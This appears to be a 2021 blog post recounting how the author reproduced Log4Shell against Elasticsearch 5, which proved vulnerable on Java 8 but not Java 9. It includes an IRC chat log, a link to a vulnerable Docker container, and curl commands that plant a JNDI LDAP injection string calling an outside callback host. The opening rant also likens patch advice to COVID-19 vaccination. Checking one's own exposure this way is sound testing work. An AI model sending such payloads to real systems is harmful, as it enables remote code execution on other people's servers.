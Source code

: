 ```yaml
---
title: Log4shell affects ElasticSearch 5 on Java 8 but not on Java 9
date: 2021-12-21 23:08:54
tags:
- hackers
---
```


## Ranty Prelude

I need to see "your truth" with my own eyes before I cargo-cult your imposed commandments to perform some upgrades. If I'm vulnerable, prove it, else how will I know I solved the problem? Just keep taking your word for it, yeah?

This experience had synchrony with the disputations relating to COVID-19, specifically how we cargo-cult the vaccinations without proof of vulnerability nor proof of patching of said vulnerability. I don't talk about politics on this site but damn this was such funny parallel it's impossible not to point it out.

Some of us just need evidence... we need to exploit or at least see proof of exploitability, before drastic action is warranted, for the drastic action could cause undesired side effects to a system that is otherwise working fine. This is scientific. Anything else is unscientific. I am so tired of appeal to authority or majority "consensus" being considered anything but <a href="https://www.developgoodhabits.com/appeal-to-authority/">fallacious. Sadly not everyone takes Logic.</a>

When I'm lost I turn to IRC. Here's my nice experience sharing (extending the brainstorming beyond my team) this with #elasticsearch on <a href="https://libera.chat/">libera.chat</a> IRC

## Fishing Line to Finish Line

**keyvan:**
good afternoon. im looking for help reproducing the log4shell hack on my ES 5 instance. i have enabled slowlogger and can see my jdni-infected query in the logs, but it does not seem to call out to the external server. i have verified the external setup (im using log4shell.huntress.com) with a small example project containing only various log4j versions and it does work; but it seems elasticsearch isn't affected? but it should be? thanks

**wwalker:**
keyvan: does ES 5 run a new enough log4j to be affected?  ES5 seems like it probably ran log4j rather than log4j-2

**keyvan:**
wwalker: i think it uses log4j 2.9, i know 5.6.10 there's a PR that bumps it to 2.11. there is a table here that shows 5 is supposed to be vulnerable https://discuss.elastic.co/t/apache-log4j2-remote-code-execution-rce-vulnerability-cve-2021-44228-esa-2021-31/291476 but what is interesting is that it appears if on Java 9 (on ES6) you're not vulnerable? so i am wondering if i am not able to repro because im on Java9 on ES5... 

**keyvan:**
i will be downgrading to Java 8 to verify this (the "more vulnerable java") according to that table...

**keyvan:**
haHA!!!!!!!! yep, my ES5 with java 8 was vulnerable... but with Java 9 was NOT.. 

### Appendix

## Eating the Fish

Mainly we've got here a java8 container which is vulnerable to the JNDI attack: https://github.com/kfatehi/docker-elasticsearch5-java8

Go ahead and try swapping it for the java9 (<a href="https://github.com/kfatehi/docker-elasticsearch5-java8/blob/master/Dockerfile#L16">link in the Dockerfile</a>) and see for yourself.

## Forcing All Queries to Get Logged

```
curl -XPUT 'http://localhost:9200/_all/_settings?preserve_existing=true' -d '{
  "index.search.slowlog.threshold.fetch.debug" : "0ms",
  "index.search.slowlog.threshold.fetch.info" : "0ms",
  "index.search.slowlog.threshold.fetch.trace" : "0ms",
  "index.search.slowlog.threshold.fetch.warn" : "0s",
  "index.search.slowlog.threshold.query.debug" : "0s",
  "index.search.slowlog.threshold.query.info" : "0s",
  "index.search.slowlog.threshold.query.trace" : "0ms",
  "index.search.slowlog.threshold.query.warn" : "0s"
}'
```

## Making the Query

```
curl -XPUT 'http://localhost:9200/my-index' -d '{
{
    "query": {
        "bool" : {
            "must" : {
                "query_string" : {
                    "query" : "${jndi:ldap://log4shell.huntress.com:1389/uuid...}"
                }
            }
        }
    }
}
```
